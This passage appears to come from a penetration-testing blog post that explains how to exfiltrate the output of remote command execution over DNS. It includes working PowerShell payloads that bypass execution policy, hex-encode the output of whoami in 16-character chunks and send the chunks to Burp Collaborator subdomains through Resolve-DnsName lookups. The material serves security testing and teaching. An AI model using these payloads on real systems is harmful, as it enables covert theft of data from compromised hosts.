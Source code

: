 First I will try it out using collaborator. We can append a string to the collaborator domain and make a request using `wget`

The payload will be 

```powershell
powershell -exec bypass -c "wget 'dnstest.9u4y5mpcus6j3r0wtquruty7yy4osd.burpcollaborator.net'"
```

![image1]({{ site.url }}{{ site.baseurl }}/assets/images/dns/1.5.png){: .align-center}
image 1.5

Awesome. We can see that our data was indeed appended as part of the DNS request. We can use this to append the output of our command outputs as part of the subdomain and we will be able to receive the output of the command. We can also read files using this technique. 

But we have two challenges

1. **There is a length limit for the URL. This means that we cannot append huge output. The limit was around 30 characters.**  
    The solution for this is to split the command into parts and send the parts one by one using one DNS request for each part.
2. **We cannot append special characters which means we have the encode the data before appending it.**  
    My first idea was to encode the commands as base64. But this failed miserably as I realized that the DNS requests only contains lower case characters. Hence our data will be lost. The alternative is to ascii encode the characters as hex and send them over and then decode it. 
    
## Exfilterating RCE Output

After some more research, I found an a very good [script](https://gallery.technet.microsoft.com/DNS-based-data-exfiltration-fc48e292) that can do both the splitting and encoding.

I tweaked it a bit to get the output of commands that are executed. The final payload look like this

```powershell
$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.659h81eo8n6qb5y6w9swwg71rsxulj.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }
```

Lets break it down.

1. First it executes the command `whoami` and splits the output into lengths of 16. I tried increasing the length, but the commands where not getting split properly when I did that.
2. Iterate through each part and encode it to hex.
3. Try to Resolve the URL of collaborator with the hex data appended before it. 
4. Sleeps for 1 second and continue with the next part.

Now time to try out the payload.

```powershell
powershell -exec -c "$(whoami) -split '(.{16})' | ? {$_} | % { Resolve-DnsName (([System.BitConverter]::ToString([System.Text.Encoding]::UTF8.GetBytes($_))).Replace('-','')+'.gk4q3p8o09d9mtahnexcz8wnmes8gx.burpcollaborator.net') -Type A; Start-Sleep -Seconds 1 }"
```
